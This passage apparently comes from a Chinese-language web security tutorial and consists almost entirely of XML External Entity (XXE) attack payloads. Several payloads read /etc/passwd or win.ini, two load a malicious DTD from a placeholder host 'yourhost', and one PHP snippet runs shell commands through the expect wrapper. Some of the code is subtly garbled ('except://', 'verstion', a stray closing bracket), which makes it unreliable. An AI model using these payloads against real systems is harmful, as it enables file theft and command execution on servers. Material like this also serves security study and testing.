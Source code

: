 ```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
      <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<aaa>&b;</aaa>
```

恶意引入外部实体2：

**XML内容**

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
     <!ENTITY % d SYSTEM "http://yourhost/evil.dtd">
     %d;
]>
<aaa>&b;</aaa>
```

DTD文件（evil.dtd）内容：

```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

恶意引入外部实体3

**XML内容**

```
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a SYSTEM "http://yourhost/evil.dtd">
]>
<c>&b;</c>
```

DTD文件内容

```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

恶意引入外部实体(4)

```
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  xxe SYSTEM "file:///c:/windows/win.ini" >]>
<foo>&xxe;</foo>
```

**危害2：命令执行**
php环境下，xml命令执行要求php装有expect扩展。而该扩展默认没有安装。

```
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "except://ls"> # id
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```
